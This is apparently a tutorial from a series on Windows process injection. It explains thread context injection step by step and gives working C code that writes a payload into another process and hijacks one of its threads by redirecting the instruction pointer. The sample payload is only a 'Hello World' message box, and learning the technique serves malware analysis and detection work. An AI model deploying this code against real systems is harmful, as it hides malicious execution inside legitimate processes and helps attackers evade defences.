


# Thread Context Injection
In this injection technique, we hijack a thread in the remote process and set the instruction pointer to our payload in the target process's address space. This forces the remote thread to run our payload instead of whatever it was doing. One major drawback of this technique is that, if we hijack a critical thread, we might end up crashing the program into which we are injecting. With that out of the way, let us look at the code. 

## The Code
The program has a familiar `main()` function:
```c
int main() {
    DWORD pid = find_pid(TARGET);
    int result = inject_thread_context(pid);
    return 0;
}
```
The `main()` function finds the Process ID (`pid`) of the target process and passes it onto the `inject_thread_context()` function, where the magic happens. 

But, before we get into the `inject_thread_context()` function, there is another function we need to take a look at first: `find_threadid()` - which is responsible for finding a valid Thread ID in the target process to which we can acquire a handle to.

The `find_threadid()` function has the following code:
```c
// Find thread ID in a process
DWORD find_threadid(DWORD pid) {
    THREADENTRY32 thEntry;
    thEntry.dwSize = sizeof(THREADENTRY32);
    HANDLE hThreadSnap = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
    BOOL result = Thread32First(hThreadSnap, &thEntry);
    while (Thread32Next(hThreadSnap, &thEntry)) {
        if (thEntry.th32OwnerProcessID == pid) {
            HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, thEntry.th32ThreadID); 
            if (!IS_HANDLE_INVALID(hThread)) {
                CloseHandle(hThread);
                CloseHandle(hThreadSnap);
                return thEntry.th32ThreadID;
            }
            CloseHandle(hThread);
        }
    }
    CloseHandle(hThreadSnap);
    return 0;
}
```
It is _very_ similar to the `find_pid()` function we have been using so far. Just like with `find_pid()`, we use the `CreateToolhelp32Snapshot()` to create a system snapshot with the `TH32CS_SNAPTHREAD` parameter to include all threads in the system in the snapshot. 

We then use `Thread32First()` to retrieve information about the first thread of any process encountered in a system snapshot. Then, we iterate over the entries in the snapshot with `Thread32Next()` and check the `th32OwnerProcessID` value of the `THREADENTRY32` structs to see if it belongs to the target process. If it does, we try to open a handle to the thread with `OpenThread()`, and if a valid handle is acquired, we close all open Handles and return the Thread ID. (See: [this MSDN post](https://learn.microsoft.com/en-us/windows/win32/toolhelp/traversing-the-thread-list))

Coming back to the `thread_context_injection()` function, it has the following code:
```c
int inject_thread_context(DWORD pid) {
    CONTEXT ctx;
    DWORD dResult;
    BOOL bResult;
    DWORD bWritten = 0;
    DWORD thId = find_threadid(pid);
    HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, thId);
    HANDLE hProcess = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE, FALSE, pid);

    LPVOID pRemoteCode = VirtualAllocEx(hProcess, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
    bResult = WriteProcessMemory(hProcess, pRemoteCode, (PVOID) payload, (SIZE_T) payload_len, (SIZE_T *) &bWritten);

    dResult = SuspendThread(hThread);
    ctx.ContextFlags = CONTEXT_CONTROL;
    bResult = GetThreadContext(hThread, &ctx);
    #ifdef _M_IX86 
        ctx.Eip = (DWORD_PTR) pRemoteCode;
    #else
        ctx.Rip = (DWORD_PTR) pRemoteCode;
    #endif
    bResult = SetThreadContext(hThread, &ctx);
    dResult = ResumeThread(hThread);

    int _result = WaitForSingleObject(hThread, -1);
    CloseHandle(hProcess);
    CloseHandle(hThread);
    return 0;
}
```

The function can be broken into four major parts:
- Opening necessary handles
- Allocating memory and copying payload in the target process's virtual memory
- Setting thread context to our payload
- Waiting for our payload to finish execution

We begin by finding a valid thread id belonging to the target process and once we have it, we get a handle to it using `OpenThread()` as well as fetching a handle to the target process using `OpenProcess()`.

Then, we use the `VirtualAllocEx()` and `WriteProcessMemory()` combination to allocate memory for our payload into the target process's virtual memory and copy our payload into the allocated memory region.

Finally, we put the thread in suspended state using `SuspendThread()`. Then we proceed the fetch the context of the specified thread using `GetThreadContext()` function. The parameters passed to the function are:
- The handle to the selected thread (`hThread`)
- A pointer to a `CONTEXT` struct(`ctx`) with the `ContextFlags` set to `CONTEXT_CONTROL` to retrieve information about the various processor states, but most importantly the value of `Eip`/`Rip` register.

The `GetThreadContext()` function populates the `CONTEXT` structure(`ctx`) with the requested information. Next up, we check if the `_M_IX86` pre-processor directive is defined or not. This helps us to determine if the compilation is done for x86 or x64, and according to the architecture, we point the respective Instruction Pointer to the address of the payload in the target process's virtual memory. 

With this thread context now modified and the instruction pointer now pointing to the payload, we use the `SetThreadContext()` function to update the thread context. Then, we use the `ResumeThread()` function to resume the execution of the thread from the suspended state.  

Finally, we wait for the thread to complete execution with `WaitForSingleObject()` and then close all open handles like good boys.

Compiling and running our program, we see our _"Hello World"_ message box pop up as expected!



We can also see the Thread ID of the thread we hijacked in Process Hacker2 as:

